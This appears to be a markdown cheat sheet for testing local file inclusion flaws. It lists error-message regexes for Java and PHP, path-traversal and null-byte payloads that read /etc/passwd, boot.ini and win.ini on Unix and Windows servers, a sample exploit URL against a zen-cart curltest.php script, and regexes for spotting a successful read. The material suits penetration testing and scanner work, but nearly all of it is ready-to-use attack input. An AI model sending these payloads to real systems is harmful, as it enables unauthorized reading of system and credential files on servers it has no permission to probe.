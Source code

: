 ### LFI 

#### Errors:
```
Detect Payload: abc.txt
```

##### Java Errors:
```
java\.io\.FileNotFoundException|java\.lang\.Exception|java\.lang\.IllegalArgumentException|java\.net\.MalformedURLException
```
##### PHP Errors:
```
Warning: include\(|Warning: unlink\(|for inclusion \(include_path=|fread\(|Failed opening required|Warning: file_get_contents\(|Fatal error: require_once\(|Warning: file_exists\(
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
/etc/passwd
```

another type of LFI http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd%00
/etc/passwd%00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
C:\\boot.ini
C:\\boot.ini%00
C:\\boot.ini%00.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini%00
%SYSTEMROOT%\\win.ini%00.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
search in response 
##### Regexp:
```
root:|for 16-bit app support|boot loader
```
Payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders



